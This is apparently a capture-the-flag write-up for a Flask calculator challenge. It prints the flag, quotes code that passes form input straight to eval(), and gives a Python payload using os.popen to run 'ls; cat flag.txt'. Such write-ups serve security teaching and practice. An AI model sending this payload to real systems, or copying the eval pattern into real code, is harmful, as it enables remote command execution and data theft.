


# Leaky Calculator

Rumor has it that this seemingly simple calculator hides a secret. Can you crack it?

# Flag
```
GCTF24{Le4k1ing_t00_Mu9h_1nf0}
```

# Solution



The source code of [`app.py`](src/app.py) shows that the dangerous function `eval()` is used.

```py
@app.route("/", methods=["GET", "POST"])
def index():
    result = ""
    if request.method == "POST":
        expression = request.form.get("expression")
        if expression:
            try:
                result = str(eval(expression))      # Can lead to RCE
            except Exception as e:
                result = "Error: " + str(e)
    return render_template("index.html", result=result)
```

We can use a simple payload to run commands and read the flag.

```bash
__import__('os').popen('ls; cat flag.txt').read()
```

